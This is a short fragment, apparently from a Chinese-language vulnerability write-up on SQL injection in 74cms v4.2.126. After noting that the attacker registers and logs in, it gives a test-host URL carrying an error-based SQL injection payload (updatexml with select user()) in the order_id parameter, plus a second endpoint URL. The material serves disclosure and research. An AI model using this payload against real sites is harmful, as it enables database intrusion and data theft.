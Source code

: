 ![](./resource/74cmsv4.2.126-前台四处sql注入/media/rId45.png)

注册完成以后登录前台即可

    url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a

    如果不登录的话，会显示这个样子
    url:http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus

